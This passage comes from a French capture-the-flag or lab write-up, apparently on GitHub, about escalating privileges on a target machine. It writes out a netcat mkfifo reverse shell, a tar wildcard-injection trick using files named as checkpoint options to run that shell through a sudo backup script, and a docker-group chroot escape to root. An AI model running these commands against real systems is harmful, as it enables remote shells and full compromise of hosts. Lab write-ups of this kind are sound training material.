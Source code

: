 ```bash
Machine distante : 

chmod 777 /opt/backups/backup.tar

cd /tmp

echo "mkfifo /tmp/lhennp; nc $ip 1337 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1

chmod 777 lhennp

sudo -u michael /opt/backups/backup.sh

Machine attaquante : 

nc -lvnp 1337
```

## Docker | Root

Quand nous regardons dans quel groupe nous appartenons, nous pouvoir voir que nous sommes dans le groupe docker.

![Untitled 11](https://user-images.githubusercontent.com/68467919/207140910-de8be41e-f4e4-4b52-b0fd-11149ecc4aa3.png)

Sur GTFOBins, la première commande nous permet de pouvoir nous élever en tant que root.

![Untitled 12](https://user-images.githubusercontent.com/68467919/207140931-e4664bbb-dcf1-487d-9e42-63d73cdcce67.png)

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![Untitled 13](https://user-images.githubusercontent.com/68467919/207140952-9f277032-0784-4c8f-8dd3-78becb7fc152.png)

ROOTED
